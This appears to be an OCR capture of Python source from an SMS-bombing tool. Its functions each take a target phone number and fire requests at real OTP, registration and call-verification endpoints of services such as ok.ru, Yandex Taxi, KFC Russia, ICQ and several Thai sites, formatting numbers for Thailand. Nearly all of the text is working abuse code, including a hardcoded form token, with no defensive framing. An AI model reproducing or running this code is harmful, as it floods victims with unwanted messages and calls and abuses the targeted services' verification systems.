def sk31(phone):

    post("https://www.kickoff28.com/action.php?mode=PreRegister", data={"tel": f"0{phone}"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

def sk32(phone):

    post("https://1ufabet.com/_ajax_/request-otp", data={"request_otp[phoneNumber]": f"0{phone}", "request_otp[termAndCondition]": "1", "request_otp[_token]": "XBNcvQIzJK1pjh_2T0BBzLiDa6vSivktDN317mbw3ws"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

def p1112(phone):

    d=post('https://api2.1112.com/api/v1/otp/create',json={"phonenumber":phone,"language":"th"},headers= header).status_code

def p1112v2(phone):

    d=post('https://api.1112delivery.com/api/v1/otp/create',json={"phonenumber":phone,"language":"th"},headers=header).status_code

def yandex(phone):

    d=post("https://taxi.yandex.kz/3.0/launch/",json={},headers=header).json()

    d=post("https://taxi.yandex.kz/3.0/auth/",json={"id": d["id"], "phone": f"+66{phone[1:]}"},headers=header).text

def okru(phone):

    s=Session()

    s.headers.update({"User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38","Content-Type" : "application/x-www-form-urlencoded","Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"})

    s.post("https://ok.ru/dk?cmd=AnonymRegistrationEnterPhone&st.cmd=anonymRegistrationEnterPhone",data=f"st.r.phone=+66{phone[1:]}")

    s.post("https://ok.ru/dk?cmd=AnonymRegistrationAcceptCallUI&st.cmd=anonymRegistrationAcceptCallUI",data="st.r.fieldAcceptCallUIButton=Call")

def karusel(phone):

    s=Session()

    s.post('https://app.karusel.ru/api/v1/phone/', data={'phone': phone})

def KFC(_phone):

    post('https://app-api.kfc.ru/api/v1/common/auth/send-validation-sms', json={'phone': '+' + _phone})

def icq(phone):

    post(f"https://u.icq.net/api/v4/rapi",json={"method":"auth/sendCode","reqId":"24973-1587490090","params":{"phone": f"66{phone[1:]}","language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}},headers=header)
